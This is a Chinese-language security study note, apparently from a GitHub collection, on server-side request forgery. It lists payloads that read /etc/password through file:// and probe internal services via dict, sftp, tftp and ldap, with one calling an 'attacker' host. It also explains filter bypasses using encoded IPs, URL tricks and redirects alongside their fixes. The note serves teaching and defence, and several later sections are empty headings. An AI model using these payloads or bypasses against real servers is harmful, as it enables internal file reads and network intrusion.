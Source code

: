 接受ua为curl的时候，支持的协议有 [![img](https://camo.githubusercontent.com/f8aaaa140f6d6dab5d160188c330b7bae0768ab6/68747470733a2f2f7777772e73656370756c73652e636f6d2f77702d636f6e74656e742f75706c6f6164732f323031382f30342f31353233353035363435312e706e67)](https://camo.githubusercontent.com/f8aaaa140f6d6dab5d160188c330b7bae0768ab6/68747470733a2f2f7777772e73656370756c73652e636f6d2f77702d636f6e74656e742f75706c6f6164732f323031382f30342f31353233353035363435312e706e67)

使用`curl -v http://xx.com/ssrf.php?url=sxxx`

```
file://
ssrf.php?url=file:///etc/password
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
```

#### 漏洞修复

> https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html

1. 检查是否为内网IP地址 绕过方法: 利用八进制IP地址绕过 利用十六进制IP地址绕过 利用十进制的IP地址绕过 利用IP地址的省略写法绕过 最好的做法：IP地址转换为整数再进行判断
2. 获取真正请求的host
   1. 如何正确的获取用户输入的URL的Host？ 最常见的就是，使用http://233.233.233.233@10.0.0.1:8080/、http://10.0.0.1#233.233.233.233这样的URL，让后端认为其Host是233.233.233.233，实际上请求的却是10.0.0.1。这种方法利用的是程序员对URL解析的错误，有很多程序员甚至会用正则去解析URL。使用urllib.parse可以解析真正的hostname
   2. 只要Host只要不是内网IP即可吗？ host可能为ip,可能为域名，利用xip.io绕过。方法：判断是否为http协议，获取url的host，再解析该host，将解析到的ip再进行检查
   3. 只要Host指向的IP不是内网IP即可吗？ 不一定，可能会30x跳转

归纳 解析目标URL，获取其Host 解析Host，获取Host指向的IP地址 检查IP地址是否为内网IP 请求URL 如果有跳转，拿出跳转URL，执行1

### 在浏览器端，Referer可以篡改吗？

通过插件修改，一般抓包修改

### xss盲打到内网服务器的利用

### xss代码层防御

## 文件上传下载遍历漏洞

### 原理

1. 容器漏洞，解析漏洞

### 修复方案
